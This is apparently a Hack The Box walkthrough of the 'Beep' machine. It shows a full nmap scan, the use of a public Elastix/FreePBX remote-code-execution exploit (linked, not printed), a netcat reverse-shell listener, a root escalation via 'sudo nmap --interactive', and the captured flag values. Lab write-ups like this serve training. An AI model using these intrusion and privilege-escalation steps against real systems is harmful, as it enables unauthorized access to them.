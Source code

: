 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
---
```

# Beep
### Let see the IP Address first →

```bash
IP : 10.10.10.7
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.7      
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-19 19:47 IST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 65520 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp?
|_smtp-commands: Couldnt establish connection on port 25
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https:/10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-07-19T14:49:38+00:00; +2s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1s
```

## Web Enumeration ➡️

This site doesn’t work with that old TLS 1.2 version of firefox browser so I redirected the site with the help of burpuite →

![Untitled](/Vulnhub-Files/img/Beep/Untitled.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%201.png)

Now lets see the site →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%202.png)

Now I recon about elastix exploit and I found one exploit interesting which leads to RCE directly so let’s try it out now → [https:/www.exploit-db.com/exploits/18650](https:/www.exploit-db.com/exploits/18650/)

But this exploit needs modification so I find this exploit modified from this [site](https:/github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/) and use it →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%204.png)

In response to that I got a reverse shell as directed and after following this exploit path I got root too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.213] from (UNKNOWN) [10.10.10.7] 38362
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ whoami
whoami
asterisk
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http:/www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# cd /root
cd /root
sh-3.2# ls -al
ls -al
total 16308
drwxr-x---  2 root root     4096 Jul 16  2019 .
drwxr-xr-x 22 root root     4096 Jul 19 13:15 ..
-rw-------  1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-rw-------  1 root root     1067 Aug 25  2017 .bash_history
-rw-r--r--  1 root root       24 Jan  6  2007 .bash_logout
-rw-r--r--  1 root root      191 Jan  6  2007 .bash_profile
-rw-r--r--  1 root root      176 Jan  6  2007 .bashrc
-rw-r--r--  1 root root      100 Jan  6  2007 .cshrc
-r-xr-xr-x  1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r--  1 root root    18433 Apr  7  2017 install.log
-rw-r--r--  1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r--  1 root root        1 Apr  7  2017 postnochroot
-rw-------  1 root root       33 Jul 19 13:15 root.txt
-rw-r--r--  1 root root      129 Jan  6  2007 .tcshrc
-r-xr-xr-x  1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
e9cbc82da8917eed8f46488876238fa2
sh-3.2# ls -al /home
ls -al /home
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Jul 19 13:15 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
sh-3.2# cd /home/fanis 
cd /home/fanis
sh-3.2# ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 Jul 19 13:15 user.txt
sh-3.2# cat user.txt
cat user.txt
e11bbf4e23bcd880ec590402fa0c9a8e
sh-3.2#
```